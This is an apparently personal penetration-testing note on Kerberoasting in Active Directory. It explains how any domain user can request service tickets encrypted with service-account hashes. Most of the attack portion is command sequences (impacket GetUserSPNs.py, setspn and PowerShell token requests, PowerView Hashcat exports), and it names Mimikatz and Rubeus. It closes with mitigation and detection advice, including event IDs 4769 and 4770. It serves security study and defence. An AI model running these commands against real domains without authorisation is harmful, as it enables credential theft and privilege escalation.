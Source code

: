 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 2 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
Kerberoasting is a lateral movement/privilege escalation technique used in AD environments. It attacks [[Active Directory#Service Principal Name (SPN)|Service Principle Name (SPN)]] accounts.
![[Active Directory#Service Principal Name (SPN)]]
Domain accounts are often used to run services to overcome network auth limitations of local built-in accounts. However, any domain user can request a Kerberos ticket for any service account in the same domain (*This is also possible across trusts if the relationship permits it*). Once you have an account (credentials, NTLM hash, shell in context, or SYSTEM access on a domain joined host), you can perform a Kerberoasting attack.

Domain accounts that run services are often local administrators or high privileged domain accounts due to the distributed nature of how the services interact in the network.

> Kerberoasting can also be done cross-forests when either an inbound or bidirectional trust is present.

**The Key Vulnerability**
Even with a Kerberos ticket for one of these privileged accounts, we cannot just execute commands as that user. However, the ticket ([[Kerberos#Ticket Granting Service (TGS)|TGS-REP]]) is *encrypted with the service account's NTLM hash*. This then means that theoretically, the plain-text password for the service account could be brute forced (eg. [[Hashcat]]).

Often, the password for these service accounts are weak or reused, so breaking one could give you access to a variety of accounts or servers. Cracking one of these service accounts, could give you an attack path through a service to gain RCE.

The attack can be performed from multiple places:
- From a non-domain joined Linux host using valid domain user credentials
- From a domain-joined Linux host as root after retrieving the `keytab` file
- From a domain-joined Windows host authenticated as a domain user
- From a domain-joined Windows host with a shell in the context of a domain account
- As `SYSTEM` on a domain-joined Windows host
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) `/netonly`

## Kerberoasting with GetUserSPNs.py - Linux
`GetUserSPNs.py` is an [impacket toolkit](https://github.com/SecureAuthCorp/impacket) script for working with SPNs.
### Request TGS tickets for SPN accounts
```bash
# Requests from all accounts
GetUserSPNs.py -dc-ip [ip] [domain]/[user] -request -outputfile all_accounts_tgs

# Requests from a single account
GetUserSPNs.py -dc-ip [ip] [domain]/[user] -request-user [target-user]
```
> The output will be in format for [[Hashcat]] - mode: 13100
> We can then use a tool like [[CrackMapExec]] to validate the account credentials once cracked.

## Manual Kerberoasting with setspn.exe - Windows
Before modern automated tools existed, manual methods such as using the built-in [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) was the way this attack was performed.
The general methodology is to extract a bunch of SPNs, then request TGS tickets and have them loaded into memory. Finally, we can then use a tool like [[Mimikatz]] to extract them from memory.
### Enumerate SPNs
```batch
setspn.exe -Q */*

:: Example Output
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
```
> This will return not only users, but computers too. You may want to only focus on users.

### Targeting a single user
```PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
The general concept here is:
1. The `Add-Type` cmdlet allows us to use `.NET` classes
2. The `-AssemblyName` allows us to specify the assembly with the types we need
3. [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is the namespace that contains the classes relating to building security token services
4. `New-Object` creates a new `.NET` object
5. Using the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class creates a security token for the passed SPN name for our currently logged in user
> This is essentially what automated tools such as [[Rubeus]] do

### Targeting all users
> This will include computers, not just users

```PowerShell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extracting the tickets from memory using [[Mimikatz]]
![[Mimikatz#Extracting Kerberos TGS Tickets]]

## Automated Kerberoasting with PowerView - Windows
### View users with SPNs
```PowerShell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
> This command can also be given a `-Domain` flag for cross-domain kerberoasting
### Target a specific user
```PowerShell
Get-DomainUser -Identity [user] | Get-DomainSPNTicket -Format Hashcat
```
### Extracting all tickets to a csv
```PowerShell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv [outputfile].csv -NoTypeInformation
cat [outputfile].csv
```

## Automated Kerberoasting with [[Rubeus]] - Windows
![[Rubeus#Summary]]
![[Rubeus#Usage]]

## Mitigation & Detection
### Non-managed service accounts
Using long and complex passwords or pass phrases can drastically reduce the risk of passwords being cracked. A better recommendation is to use [Managed Service Accounts (MSA)](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009), and [Group Managed Service Accounts (gMSA)](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview), which use very complex passwords, and automatically rotate on a set interval (like machine accounts) or accounts set up with [[Windows#Local Administrator Password Solution (LAPS)|LAPS]].

### Looking for an abnormal number of TGS requests
When Kerberoasting is being performed, an abnormal number of `TGS-REQ` and `TGS-REP` requests and responses will be made. This could be an indication of automated tools being used. Monitoring can be enabled by selecting [Audit Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations) within Group Policy.

Doing so will generate two separate event IDs: [4769](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769): A Kerberos service ticket was requested, and [4770](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4770): A Kerberos service ticket was renewed. 10-20 Kerberos TGS requests for a given account can be considered normal in a given environment. A large amount of 4769 event IDs from one account within a short period may indicate an attack.

### Restrict usage of RC4 encryption
Restricting the use of weak encryption algorithms can also play a part in increasing the time it would take to crack them passwords, when combined with complex passwords, this can make it unfeasible to crack passwords 
